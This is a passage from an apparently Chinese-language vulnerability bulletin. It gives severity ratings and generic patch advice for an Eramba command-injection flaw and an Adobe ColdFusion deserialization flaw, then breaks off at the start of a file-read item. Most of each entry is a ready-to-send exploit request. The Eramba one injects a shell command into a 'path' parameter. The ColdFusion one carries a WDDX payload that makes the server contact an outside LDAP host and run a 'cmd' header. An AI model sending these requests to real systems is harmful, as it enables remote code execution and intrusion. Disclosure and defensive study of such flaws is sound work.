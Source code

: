 **漏洞描述：Eramba任意代码执行漏洞**

**漏洞等级：****高危**

**漏洞类型：****代码执行漏洞**

**影响版本：****-**

**漏洞详情：**

**GET /settings/download-test-pdf?path=ip%20a; HTTP/1.1****Host: [redacted]****Cookie: translation=1; csrfToken=1l2rXXwj1D1hVyVRH%2B1g%2BzIzYTA3OGFiNWRjZWVmODQ1OTU1NWEyODM2MzIwZTZkZTVlNmU1YjY%3D; PHPSESSID=14j6sfroe6t2g1mh71g2a1vjg8****User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/111.0****Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8****Accept-Language: de,en-US;q=0.7,en;q=0.3****Accept-Encoding: gzip, deflate****Referer: https://[redacted]/settings****Upgrade-Insecure-Requests: 1****Sec-Fetch-Dest: document****Sec-Fetch-Mode: navigate****Sec-Fetch-Site: same-origin****Sec-Fetch-User: ?1****Te: trailers****Connection: close**



**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。



#####             9.     **Adobe ColdFusion 反序列化漏洞**

**漏洞描述：Adobe ColdFusion 反序列化漏洞**

**漏洞等级：****高危**

**漏洞类型：****反序列化**

**影响版本：****-**

**漏洞详情：**



**POST /CFIDE/adminapi/base.cfc?method= HTTP/1.1****Host: 1.2.3.4:1234****User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15****Content-Length: 400****Content-Type: application/x-www-form-urlencoded****Accept-Encoding: gzip****cmd: id****argumentCollection=****<wddxPacket version='1.0'>**    **<header/>**    **<data>**        **<struct type='xcom.sun.rowset.JdbcRowSetImplx'>**            **<var name='dataSourceName'>**                **<string>ldap://xxx.xxx.xxx:1234/Basic/TomcatEcho</string>**            **</var>**            **<var name='autoCommit'>**                **<boolean value='true'/>**            **</var>**        **</struct>**    **</data>****</wddxPacket>**



**处置建议：**升级版本或安装厂商官方补丁，用于提升系统自身安全性，同时，可通过安全设备快速感知漏洞利用行为并进行预警或阻断。



#####             10.     **Panel loadfile 后台文件读取漏洞**

**漏洞描述：Panel loadfile 后台文件读取漏洞**

**漏洞等级：****中危**

**漏洞类型：****任意文件读取**

**影响版本：****-**
